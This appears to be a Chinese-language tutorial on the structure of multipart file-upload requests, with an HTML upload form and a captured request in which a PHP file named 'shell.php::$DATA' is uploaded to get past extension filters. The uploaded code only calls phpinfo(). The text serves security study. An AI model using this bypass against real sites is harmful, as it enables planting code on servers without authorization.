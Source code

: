 ## 文件上传包结构

- 使用工具
  - BurpSuite
  - PHPstudy
  - PHP 7.2

### 代码示例

**文件上传页面**

这里构造一个文件上传的界面，开启抓包获取上传信息

```html
<form action='' enctype='multipart/form-data' method='POST'>
<input type='file' name='file'>
<input class="button" type="submit" name="submit" value="upload"/>
</form>
```

`multipart` 格式的数据会将一个表单拆分为多个部分（part），每个部分对应一个输入域。在一般的表单输入域中，
它所对应的部分中会放置文本型数据，但是如果上传的是文件，它所对应的部分可以是二进制数据

**文件上传包**

```bash
------------cH2cH2Ij5Ij5ei4KM7Ef1gL6Ij5cH2
Content-Disposition: form-data; name="Filename"

phpinfo.php
------------cH2cH2Ij5Ij5ei4KM7Ef1gL6Ij5cH2
Content-Disposition: form-data; name="test1"

test1
------------cH2cH2Ij5Ij5ei4KM7Ef1gL6Ij5cH2
Content-Disposition: form-data; name="task"

doupload
------------cH2cH2Ij5Ij5ei4KM7Ef1gL6Ij5cH2
Content-Disposition: form-data; name="file_id"

0
------------cH2cH2Ij5Ij5ei4KM7Ef1gL6Ij5cH2
Content-Disposition: form-data; name="upload_file"; filename="shell.php::$DATA"
Content-Type: application/octet-stream

<?php

phpinfo();

------------cH2cH2Ij5Ij5ei4KM7Ef1gL6Ij5cH2
Content-Disposition: form-data; name="Upload"

Submit Query
------------cH2cH2Ij5Ij5ei4KM7Ef1gL6Ij5cH2--
```
